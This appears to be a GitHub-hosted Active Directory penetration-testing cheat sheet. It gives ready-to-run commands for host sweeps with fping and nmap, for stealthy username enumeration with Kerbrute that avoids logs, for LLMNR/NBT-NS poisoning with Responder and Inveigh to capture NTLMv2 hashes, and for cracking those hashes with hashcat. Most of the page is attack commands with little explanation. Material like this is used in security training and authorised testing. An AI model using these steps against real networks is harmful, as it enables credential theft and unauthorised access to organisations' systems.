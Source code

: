 # Active identification of any hosts in the network
### FPing Active Checks
A lightweight, fast utility for performing ICMP sweeps.
```shell
fping -asgq 10.10.5.0/23
```
### Nmap Scanning
AD Focus protocols (Ports): DNS, SMB, LDAP, Kerberos.
```shell
sudo nmap -v -A -iL hosts.txt -oN host-enum
```
Hostes Gathered from fping
## Identifying Users
### Kerbrute - Internal AD Username Enumeration
[Kerbrute](https://github.com/ropnop/kerbrute) can be a stealthier option for domain account enumeration. It takes advantage of the fact that Kerberos pre-authentication failures often will not trigger logs or alerts. We will use Kerbrute in conjunction with the `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames). This repository contains many different user lists that can be extremely useful when attempting to enumerate users.
```shell
kerbrute userenum -d [DOMAIN] --dc [IP_ADDRESS] [WORDLIST]
kerbrute userenum -d domain.local --dc 172.16.5.5 jsmith.txt
```
# LLMNR/NBT-NS Poisoning
Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification that can be used when DNS fails.
The point here is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests. By this we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password.
## LLMNR/NBT-NS Poisoning - from Linux
```shell
sudo responder -I <interface> -A
```
log file per host located in the `/usr/share/responder/logs`
#### Cracking an NTLMv2 Hash With Hashcat
``` shell
hashcat -m 5600 hash_ntlmv2 /usr/share/wordlists/rockyou.txt
```
## LLMNR/NBT-NS Poisoning - from Windows
By using tool [Inveigh](https://github.com/Kevin-Robertson/Inveigh) and attempt to capture another set of credentials. [Inveigh](https://github.com/Kevin-Robertson/Inveigh) works similar to Responder, but is written in PowerShell and C#. Inveigh can listen to IPv4 and IPv6 and several other protocols, including `LLMNR`, DNS, `mDNS`, NBNS, `DHCPv6`, ICMPv6, `HTTP`, HTTPS, `SMB`, LDAP, `WebDAV`, and Proxy Auth.

On powershell (Open as admin)
``` powershell
Import-Module .\Inveigh.ps1
(Get-Command Invoke-Inveigh).Parameters
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```
_Note_: PowerShell terminal must run with admin priv.
Using .exe
Inveigh [v2.0.11](https://github.com/Kevin-Robertson/Inveigh/releases/tag/v2.0.11)
steps on powershell (opened as admin)
```powershell
.\Inveigh.exe
```
_Note_: During capturing you can Press ESC to enter/exit interactive console, After typing `HELP` and hitting enter, we are presented with several options:
- We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`
- We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected.
